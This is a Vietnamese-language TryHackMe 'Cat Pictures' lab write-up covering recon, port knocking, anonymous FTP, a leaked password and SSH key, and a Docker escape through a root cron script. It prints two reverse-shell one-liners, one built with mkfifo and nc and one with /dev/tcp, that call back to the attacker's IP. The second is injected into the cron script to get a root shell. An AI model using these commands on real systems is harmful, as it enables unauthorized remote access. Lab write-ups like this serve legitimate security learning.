<div align="center">
    <h1>🐱 TryHackMe Cat Pictures Writeup 🖼️</h1>
</div>

## 🚀 1. Khởi động target



## 🔍2. Recon

- Như thường lệ, quét `nmap` để phát hiện các cổng mở.



- Kết quả trả về thông tin một số cổng `21`, `22`, `8080`.

    - Port `21` cho dịch vụ `ftp` đang ở trạng thái `Filtered` `(?)`. Có vẻ có thứ gì đó chặn gói tin đến cổng `21`, và `Nmap` không xác định được trạng thái thực sự của cổng.
    - Port `22` cho dịch vụ `ssh` đang mở.
    - Port `8080` đang chạy `http server`.

- Truy cập thử vào taget với port `8080` ta nhận được một trang diễn đàn tạo bởi `PhpBB`.



- Sử dụng thử `gobuster` quét thư mục ẩn. Phát hiện một số thư mục khá phổ biến trên các trang web.



- Tuy nhiên khi truy cập thử vào các thư mục này thì không nhận được kết quả gì đặc biệt, có vẻ không thể khai thác thêm theo cách này.



## 🔑3. Khai thác trang diễn đàn

- Quay lại trang chính của diễn đàn. thấy duy nhất có một bài viết, truy cập thử bài viết này thì nhận thấy có vẻ là một gợi ý.



- Có vẻ nó liên quan đến kĩ thuật `Port Knocking`, tìm hiểu một chút về kĩ thuật này.



- Có thể tóm gọn lại: `Port knocking` là kỹ thuật bảo mật giúp ẩn các cổng dịch vụ trên máy chủ. Chỉ khi người dùng gửi đúng chuỗi yêu cầu kết nối đến các cổng theo thứ tự đã định, hệ thống mới mở cổng cần thiết để cho phép truy cập. Mục tiêu là ngăn quét cổng và giảm nguy cơ tấn công từ bên ngoài.
- Thử sử dụng công cụ `knock` để "gõ" các cổng theo thứ tự gợi ý.
```bash
 knock 10.10.181.195 1111 2222 3333 4444
```



- Sau khi thực hiện, nhận thấy cổng `21` lúc trước bị `filtered` đã được mở, có lẽ có gì giấu ở đây =))

- Đăng nhập vào dịch vụ `ftp` dưới tên `anonymous`, phát hiện một file `note.txt`.



- Tải file này về máy và đọc thử.



```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.
Connect to port 4420, the password is sardinethecat.
- catlover
```

- Dựa vào đoạn gợi ý, có vẻ ta thu được một mật khẩu là `sardinethecat` và một người dùng là `catlover`.

- Bên cạnh đó là việc gợi ý kết nối tới port `4420`, sử dụng `nc` truy cập tới taget với port kể trên.



- Nhập mật khẩu là `sardinethecat` nhận được ở trên, ta truy cập vào được một shell của server.



- Tuy nhiên các lệnh cơ bản cũng không thể chạy trên shell này. Có lẽ nên cố gắng tạo một reverse shell để khai thác tốt hơn.

- Tạo reverse shell sử dụng revshells.com.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.21.175.20 1234 >/tmp/f
```



- Chạy thành công lệnh, nhận được shell mới.



- Một số lệnh vẫn không thực hiện được nhưng ít nhất ta có thể `cd`

- Tìm sâu vào `home`, bên trong thư mục `clatlover` thấy một file `runme`, chạy thử thì file này yêu cầu mật khẩu.


- Nhập thử mật khẩu thu được từ các bước trên nhưng có vẻ không hoạt động.

- Đọc thử file này, nhận được một chuỗi các kí tự lạ.



- Tuy nhiên nếu đọc kĩ trong đó, thu được một số thông tin có thể đọc được.



- Một mật khẩu nào đó được nhập, có vẻ là `rebecca`. Thử chạy lại file `runme` với mật khẩu này.



- Ta thu được một file chứa `RSA` private key



- Có vẻ có thể đăng nhập `SSH` bằng key này, vì thế ta tải về và thử đăng nhập. `rsa` key này không có mật khẩu



- Đăng nhập thành công, truy cập được vào id `root`



- Tìm file flag.
```bash
find / -name "flag.txt" 2>/dev/null
```



=> Tìm được flag đầu tiên. 🚩🚩🚩

- Trong quá trình tìm root flag, tôi nhận ra có vẻ như shell này đang ở trong `docker container`, cần tìm cách thoát khỏi nó.



- Tìm kiếm tất cả các file và thư mục trong container này.



- Có thể tìm được gì đó trong file `.bash_history`



- Theo đó, nhận thấy một file được tương tác là `/opt/clean/clean.sh` và có vẻ nó được chạy `cronjob` - lệnh tự động chạy theo lịch định sẵn trên hệ điều hành Linux.

- Nếu thay đổi file này, có thể tạo reverse shell đến `root` của server.



- Chèn reverse shell vào file kể trên.

```bash
/bin/sh -i >& /dev/tcp/10.21.175.20/4444 0>&1
```



- Lưu lại file, sau đó việc cần làm là đợi vài phút để file thực thi tự động.

- Nếu thành công, ta nhận được `root shell`



- Giờ việc đơn giản còn lại là tìm nốt root flag



=> Tìm được `root flag` 🚩🚩🚩






=> Hoàn thành bài lab :)) 🎉🎉🎉